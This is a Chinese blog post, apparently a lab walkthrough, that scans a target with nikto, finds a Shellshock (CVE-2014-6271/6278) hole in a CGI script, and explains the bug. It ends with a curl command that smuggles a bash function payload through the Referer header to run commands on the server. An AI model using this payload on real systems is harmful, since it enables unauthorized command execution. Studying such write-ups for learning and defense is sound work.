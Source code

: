
#### 免责声明


本博客提供的所有信息仅供学习和研究目的，旨在提高读者的网络安全意识和技术能力。请在合法合规的前提下使用本文中提供的任何技术、方法或工具。如果您选择使用本博客中的任何信息进行非法活动，您将独自承担全部法律责任。本博客明确表示不支持、不鼓励也不参与任何形式的非法活动。


如有侵权请联系我第一时间删除


## nikto扫描



```
sudo nikto -h ip -useproxy http://ip:port
```

发现存在Shellshock漏洞，又称bashdoor `利用版本`：bash4\.1版本之前都存在这个漏洞


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231225078-957253874.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231225078-957253874.png)


扫描结果： 可能存在shellshock漏洞



```
/cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278
```

详情见http://cve.mitre.org/cgi\-bin/cvename.cgi?name\=CVE\-2014\-6278 ，这是一个GNU Bash 环境变量命令注入漏洞 ，我对这个漏洞了解比较少，所以去找了几篇文章


[ShellShock（CVE\-2014\-6271）\-CSDN博客](https://github.com)


[Shellshock 漏洞 （CVE\-2014\-6271\) \- 知乎](https://github.com)


GNU Bash 4\.3及之前版本在评估某些构造的环境变量时存在安全漏洞，向环境变量值内的函数定义后添加多余的字符串会触发此漏洞，攻击者可利用此漏洞改变或绕过环境限制，以执行Shell命令。某些服务和应用允许未经身份验证的远程攻击者提供环境变量以利用此漏洞。此漏洞源于在调用Bash Shell之前可以用构造的值创建环境变量。这些变量可以包含代码，在Shell被调用后会被立即执行。这个漏洞的英文是：ShellShock，中文名被XCERT命名为：破壳漏洞。该漏洞在Red Hat、CentOS、Ubuntu 、Fedora 、Amazon Linux 、OS X 10\.10中均拥有存在CVE\-2014\-6271（即“破壳”漏洞）漏洞的Bash版本，同时由于Bash在各主流操作系统的广泛应用，此漏洞的影响范围包括但不限于大多数应用Bash的Unix、Linux、Mac OS X，而针对这些操作系统管理下的数据均存在高危威胁。漏洞的利用方式会通过与Bash交互的多种应用展开，包括HTTP、OpenSSH、DHCP等


## Shellshock


### 验证shellshock存在



```
sudo curl -v --proxy http://ip:3128 http://ip/cgi-bin/status -H "Referer:() { test;}; echo 'Content-Type: text/plain'; echo; echo; /usr/bin/id;exit"
```
